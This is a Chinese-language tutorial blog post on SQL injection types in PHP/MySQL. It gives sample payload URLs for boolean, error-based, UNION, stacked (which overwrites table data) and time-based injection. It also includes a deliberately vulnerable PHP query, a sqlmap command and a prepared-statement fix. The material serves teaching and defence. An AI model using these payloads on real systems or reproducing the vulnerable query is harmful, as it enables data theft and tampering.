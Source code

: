 ```yaml
---
title: web安全之sql注入
date: 2016-11-02 15:04:02
tags:
---
```

.........
<!--more-->
SQL的注入类型有以下5种：

Boolean-based blind SQL injection（布尔型注入） Error-based SQL injection（报错型注入） UNION query SQL injection（可联合查询注入） Stacked queries SQL injection（可多语句查询注入） Time-based blind SQL injection（基于时间延迟注入）
下文都是基�php、mysql测试得到的结果。

Boolean-based blind SQL injection（布尔型注入）
通过判断页面返回情况获得想要的信息。

如下SQL注入：

1 http://hello.com/view?id=1 and substring(version(),1,1)=5

如果服务端MySQL版本是5.X的话，那么页面返回的内容就会跟正常请求一样。攻击者就可以通过这种方式获取到MySQL的各类信息。

Error-based SQL injection（报错型注入）
如果页面能够输出SQL报错信息，则可以从报错信息中获得想要的信息。

典型的就是利用group by的duplicate entry错误。关于这个错误，貌似是MySQL存在的 bug： duplicate key for entry on select? 、 SQL Injection attack - What does this do?

如下SQL注入：

1 http://hello.com/view?id=1%20AND%20(SELECT%207506%20FROM(SELECT%20COUNT(*),CONCAT(0x717a707a71,(SELECT%20MID((IFNULL(CAST(schema_name%20 2 AS%20CHAR),0x20)),1,54)%20FROM%20INFORMATION_SCHEMA.SCHEMATA%20 3 LIMIT%202,1),0x7178786271,FLOOR(RAND(0)*2))x%20FROM%20INFORMATION_ 4 SCHEMA.CHARACTER_SETS%20GROUP%20BY%20x)a)

在抛出的SQL错误中会包含这样的信息： Duplicate entry 'qzpzqttqxxbq1' for key 'group_key' ，其中qzpzq和qxxbq分别是0x717a707a71和0x7178786271，用这两个字符串包住了tt（即数据库名），是为了方便sql注入程序从返回的错误内容中提取出信息。

UNION query SQL injection（可联合查询注入）
最快捷的方法，通过UNION查询获取到所有想要的数据，前提是请求返回后能输出SQL执行后查询到的所有内容。

如下SQL注入：

1 http://hello.com/view?id=1 UNION ALL SELECT SCHEMA_NAME, DEFAULT_CHARACTER_SET_NAME FROM INFORMATION_SCHEMA.SCHEMATA

Stacked queries SQL injection（可多语句查询注入）
即能够执行多条查询语句，非常危险，因为这意味着能够对数据库直接做更新操作。

如下SQL注入：

1 http://hello.com/view?id=1;update t1 set content = 'aaaaaaaaa'

在第二次请求 http://hello.com/view?id=1 时，会发现所有的content都被设置为aaaaaaaaa了。

Time-based blind SQL injection（基于时间延迟注入）
页面不会返回错误信息，不会输出UNION注入所查出来的泄露的信息。类似搜索这类请求，boolean注入也无能为力，因为搜索返回空也属于正常的，这时就得采用time-based的注入了，即判断请求响应的时间，但该类型注入获取信息的速度非常慢。

如下SQL注入：

1 http://hello.com/view?q=abc' AND (SELECT * FROM (SELECT(SLEEP(5)))VCVe) OR 1 = '

该请求会使MySQL的查询睡眠5S，攻击者可以通过添加条件判断到SQL中，比如IF(substring(version(),1,1)=5, sleep(5), ‘t’) AS value就能做到类似boolean注入的效果，如果睡眠了5s，那么说明MySQL版本为5，否则不是，但这种方式获取信息的速度就会很慢了，因为要做非常多的判断，并且需要花时间等待，不断地去测试出相应的值出来。

来做个实验
使用SQL注入工具：sqlmap

服务端代码（输出SQL报错信息、输出SQL查出来的所有内容）：

1 <?php 2 $pdo = new PDO("mysql:host=$host;dbname=tt", $db_user, $password); 3 $pdo->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION); 4 $res = $pdo->query('select * from t1 where id = ' . $_GET['id']); 5 var_dump($res->fetchAll()); 6 ?>
执行sqlmap获取所有数据库名：

1 sqlmap -u http://host/id\=1\* --dbms=mysql --dbs -v 3 --level=5 --risk=3

查看执行结果：


认识SQL注入的类型
从输出结果可以看出支持所有类型的SQL注入。
获取到的数据库名：


认识SQL注入的类型
服务端代码去掉SQL报错信息：

1 <?php 2 $pdo = new PDO("mysql:host=$host;dbname=tt", $db_user, $password); 3 $pdo->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_SILENT); 4 $res = $pdo->query('select * from t1 where id = ' . $_GET['id']); 5 var_dump($res->fetchAll()); 6 ?>
重新执行sqlmap，查看执行结果：


认识SQL注入的类型
从输出结果可以看出无法使用error-based注入了。

服务端代码改为去掉任何的输出信息：

1 <?php 2 $pdo = new PDO("mysql:host=$host;dbname=tt", $db_user, $password); 3 $pdo->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_SILENT); 4 $res = $pdo->query('select * from t1 where id = ' . $_GET['id']); 5 ?> 
认识SQL注入的类型
从输出结果可以看出只支持stacked注入和time-based注入，但要获得数据库信息只能使用time-based注入获得，且会做非常多次的注入尝试，如下图：


认识SQL注入的类型
如何防止SQL注入？
使用MySQL提供的 SQL Syntax for Prepared Statements ，即语句预处理，从web开发的角度来讲是参数绑定查询，能够抵挡住上述所说的所有SQL注入= =

1 <?php 2 $pdo = new PDO('mysql:host=192.168.103.111;dbname=tt', 'test', '19921212'); 3 $pdo->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION); 4 $res = $pdo->prepare('select * from t1 where id = ?'); 5 $res->execute([$_GET['id']]); 6 var_dump($res->fetchAll()); 7 ?>
sqlmap执行结果：

